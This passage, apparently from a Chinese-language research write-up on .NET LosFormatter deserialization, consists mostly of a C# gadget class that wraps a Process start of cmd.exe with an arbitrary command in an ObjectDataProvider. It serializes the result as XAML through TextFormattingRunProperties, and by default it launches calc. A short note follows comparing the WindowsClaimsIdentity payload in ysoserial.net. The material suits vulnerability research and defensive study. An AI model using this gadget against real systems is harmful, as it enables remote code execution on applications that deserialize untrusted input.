 ```csharp
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

## WindowsClaimsIdentity

查看ysoserial.net中的payload构造，发现和上文原理一样，也是通过actor字段。

![image-20210430102011516](LosFormatter.assets/image-20210430102011516.png)
